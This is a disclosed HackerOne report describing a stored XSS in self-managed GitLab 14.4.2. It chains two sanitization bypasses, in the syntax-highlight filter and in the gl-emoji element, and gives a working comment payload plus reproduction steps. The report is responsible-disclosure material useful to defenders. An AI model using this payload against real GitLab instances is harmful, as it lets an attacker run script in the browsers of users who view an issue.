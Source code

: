 # Stored XSS on issue comments and other pages which contain notes

## Report Details
- **Report ID**: 1398305
- **URL**: https://hackerone.com/reports/1398305
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-11-11T14:55:36.689Z
- **Disclosed**: 2022-06-08T14:02:11.747Z

## Reporter
- **Username**: jarij
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

This report contains two XSS sanitization bypasses:

* The [SyntaxHighlightFilter](https://gitlab.com/gitlab-org/gitlab/-/blob/c2e5d7b89b84cc5b44575592bb706ef75c3d1bbb/lib/banzai/filter/syntax_highlight_filter.rb) creates html from unsanitized data. This can be used to bypass the XSS filter on the server-side. 

```ruby
 def highlight_node(node)
...
sourcepos = node.parent.attr('data-sourcepos')
...
sourcepos_attr = sourcepos ? "data-sourcepos=\"#{sourcepos}\"" : ""

 highlighted = %(<pre #{sourcepos_attr} class="#{css_classes}"
                             lang="#{language}"
                             #{lang_params}
                             v-pre="true"><code>#{code}</code></pre>)
```

* The [gl-emoji](https://gitlab.com/gitlab-org/gitlab/-/blob/5b0bedde99d676116221b56ad75fa89ccf8a9f28/app/assets/javascripts/behaviors/gl_emoji.js) custom element can be used to bypass the gitlab-ui `v-safe-html` directive sanitization on the frontend side by injecting the payload into the name attribute:

```js
export function emojiImageTag(name, src) {
  return `<img class="emoji" title=":${name}:" alt=":${name}:" src="${src}" width="20" height="20" align="absmiddle" />`;
}
```

* Gitlab SaaS is not vulnerable because this report does not include CSP bypass. I'm currently working on this.

### Steps to reproduce

{F1510920}

1. Launch self-managed Gitlab instance
2. Create issue
3. Copy and paste the following payload into the comment field:

```
<pre data-sourcepos="&#34; href=&#34;x&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34 onload=&#34;alert(document.location.href)&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>
```

#### Results of GitLab environment info

```
# gitlab-rake gitlab:env:info         

System information
System:
Proxy:          no
Current User:   git
Using RVM:      no
Ruby Version:   2.7.4p191
Gem Version:    3.1.4
Bundler Version:2.1.4
Rake Version:   13.0.6
Redis Version:  6.0.16
Git Version:    2.33.0.
Sidekiq Version:6.2.2
Go Version:     unknown

GitLab information
Version:        14.4.2-ee
Revision:       84aa6daaffd
Directory:      /opt/gitlab/embedded/service/gitlab-rails
DB Adapter:     PostgreSQL
DB Version:     12.7
URL:            http://localhost:8888
HTTP Clone URL: http://localhost:8888/some-group/some-project.git
SSH Clone URL:  git@localhost:some-group/some-project.git
Elasticsearch:  no
Geo:            no
Using LDAP:     no
Using Omniauth: yes
Omniauth Providers:

GitLab Shell
Version:        13.21.1
Repository storage paths:
- default:      /var/opt/gitlab/git-data/repositories
GitLab Shell path:              /opt/gitlab/embedded/service/gitlab-shell
Git:            /opt/gitlab/embedded/bin/git
```

## Impact

Attacker who can comment on issue will be able to XSS users that visit that issue. This also affects other pages where comments can be posted, such as snippets.

## Attachments
- xss-poc.webm
